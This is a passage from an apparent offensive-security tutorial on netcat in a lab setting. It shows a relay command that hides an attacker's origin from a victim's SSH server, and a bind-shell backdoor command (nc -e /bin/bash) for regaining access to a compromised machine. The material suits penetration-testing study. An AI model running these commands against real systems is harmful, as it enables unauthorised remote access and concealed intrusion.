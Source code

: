 ### Port forwarding

Netcat's port forwarding ability could be useful in a variety of scenarios, from bypassing traffic restrictions in a secure environment to using a proxy (or more) to conduct a MITM attack.

For this example, I will be using the following:

``` plain
    Attacker machine: 192.168.127.133
    Relaying machine: 192.168.127.130
    Victim machine: 192.168.127.129
```

On the relay, use the following command:

``` plain
nc -l -p 4444 -c "nc 192.168.127.129 22"
```

This sets up a listener on port 4444. The -c flag specifies a shell command to be executed by the /bin/sh shell (if the system doesn't have such a shell, you can use the -e flag to execute a command or file instead. On a Windows machine, for instance, you could run cmd.exe or a batch file containing your desired commands). So, in the above, the proxy will forward connections it receives on port 4444 to the victim machine on port 22.

From the attacker machine, connect to the proxy:

``` plain
nc 192.168.127.130 4444
SSH-2.0-OpenSSH_5.9
```

Bingo! We can see that there is an SSH server waiting for someone to log in. On the victim machine, let's confirm that we have a connection:

``` plain
netstat -antp | grep 22
tcp        0      0 192.168.127.129:22      192.168.127.130:43583   ESTABLISHED -
```

So the victim is unaware of the real source of the connection! It sees the connection as originating from the relay machine.

### Remote backdoor - Bind shell

Once an attacker has exploited a victim machine, he may want to return afterwards and have a nice, cozy backdoor waiting for him. If there is a direct connection between the 2 machines, netcat can be used to bind a shell to a port and wait for the attacker to connect. The shell will have the privileges of the user who spawned it, so it's best to have administrative privileges for full power over the system.

On the machine you want to backdoor, use netcat to bind the shell:

``` plain
nc -v -l -p 5555 -e /bin/bash
```

Now from another machine, use netcat to connect to it on that port and your shell will be waiting for you. Keep in mind there won't be any prompt or anything like that. Just type commands in the terminal.
